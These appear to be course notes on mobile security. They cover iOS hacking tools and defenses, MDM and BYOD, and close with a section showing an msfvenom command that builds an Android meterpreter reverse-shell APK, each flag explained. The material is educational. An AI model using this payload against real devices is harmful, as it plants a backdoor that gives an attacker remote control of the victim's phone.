 ### iOS Hacking Tools
* **Frida:** Also widely used on iOS for dynamic analysis and instrumentation.
* **Objection:** A mobile exploration toolkit, powered by Frida, designed to help assess mobile security without a jailbreak.
* **Cydia:** An alternative "app store" for jailbroken devices, often used to install hacking tools.

### iOS Security Defenses
* **Secure Enclave:** A dedicated hardware-based key manager that protects sensitive user data even if the main kernel is compromised.
* **Strict App Sandboxing:** Isolates apps very effectively.
* **App Store Review:** A rigorous process that apps must pass before being published, which helps filter out malware.
* **Face ID / Touch ID:** Biometric security integrated with the hardware.

---

## 5. Mobile Device Management (MDM) and BYOD

### Mobile Device Management (MDM)
MDM software is used by organizations to centrally monitor, manage, and secure mobile devices (smartphones, tablets) that are used for work purposes. MDM solutions can enforce security policies, remotely wipe a lost or stolen device, distribute apps, and configure settings.

### Bring Your Own Device (BYOD)
BYOD is a policy that allows employees to use their personal mobile devices to access enterprise applications and data. While it increases employee satisfaction, it creates a major security challenge: how to protect corporate data on a device the company does not own? MDM and containerization (separating work and personal data) are key solutions.

---

## 6. Practical Mobile Hacking Techniques and Tools

### Malware Creation and Exploitation with Metasploit
As shown in your slide, the Metasploit Framework is a powerful tool for penetration testing. `msfvenom` is its tool for generating payloads (malware).

**Ethical Hacking Note:** These commands are for educational purposes and authorized penetration tests only. Using them on devices without explicit permission is illegal.

#### Malware Creating (using `msfvenom`)
* **Command:** `msfvenom --platform android -p android/meterpreter/reverse_tcp lhost=IP Address lport=Port R -o malicious.apk`
* **Explanation of Flags:**
    * `msfvenom`: The command to generate a payload.
    * `--platform android`: Specifies the target platform is Android.
    * `-p android/meterpreter/reverse_tcp`: Sets the payload. This specific payload creates a backdoor that connects back to the attacker.
    * `lhost=IP Address`: The "listen host." This is **your** IP address, where the malware will connect back to.
    * `lport=Port`: The "listen port." The port on your machine that will be listening for the connection.
    * `R`: Formats the payload correctly.
    * `-o malicious.apk`: The output (`-o`) file name. This is the malicious Android app file.

